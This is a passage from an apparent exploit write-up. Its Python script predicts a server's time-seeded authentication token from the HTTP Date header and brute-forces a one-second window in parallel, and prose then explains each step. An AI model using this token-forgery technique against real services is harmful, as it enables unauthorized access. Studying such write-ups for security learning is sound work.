 ```python
    dt = parsedate_to_datetime(server_date)  
    return int(dt.timestamp())  
  
def try_seed(seed):  
    token = genToken(seed)  
  
    data = {  
        "yaml": "",  
        "token": token  
    }  
  
    r = requests.post(URL, headers=HEADERS, data=data)  
    print(f"[HTTP {r.status_code}] seed={seed} token={token} len={len(r.text)}")  
    if "unauthorized" not in r.text.lower() and r.status_code != 429:  
        return seed, token, r.text  
    return None  
  
def main():  
    server_time = get_server_time()  
    print(f"[+] Server time: {server_time}")  
    seeds = [server_time - 1, server_time, server_time + 1]  
  
    with ThreadPoolExecutor(max_workers=3) as executor:  
        futures = [executor.submit(try_seed, s) for s in seeds]  
        for future in as_completed(futures):  
            result = future.result()  
            if result:  
                seed, token, resp = result  
                print(f"[+] Success! seed={seed}, token={token}")  
                print(resp)  
                break  
  
if __name__ == "__main__":  
    main()
```

The exploitation logic is structured into three main steps:

- **First** – Retrieve the server’s current time from the `Date` header in the HTTP response and convert it into a Unix timestamp. This timestamp is then used as the seed to generate a predicted token matching the server’s logic.
    
- **Second** – Brute-force a small time offset window by testing the exact server time, as well as one second before and after. A valid token is identified when the response does not contain “unauthorized” and is not a rate-limit error (`HTTP 429`).
    
- **Last** – Perform parallel execution using `ThreadPoolExecutor` to test all three time candidates simultaneously. The process stops as soon as a valid token is found, printing the seed, token, and full server response.

This process may need to be repeated two to three times before a valid token is found. Once we confirm that the script successfully generates a valid token, we proceed to the next step of the exploitation chain.
